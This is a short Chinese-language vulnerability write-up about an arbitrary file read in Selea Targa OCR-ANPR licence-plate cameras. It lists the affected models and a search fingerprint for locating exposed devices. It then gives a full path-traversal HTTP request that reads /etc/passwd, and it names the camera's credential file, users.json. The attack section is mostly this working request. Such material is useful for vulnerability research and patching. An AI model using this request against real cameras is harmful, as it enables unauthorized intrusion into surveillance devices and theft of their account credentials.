

# Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下


发送如下请求包读取文件


```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```





摄像头账号密码文件为 `mnt/data/auth/users.json`


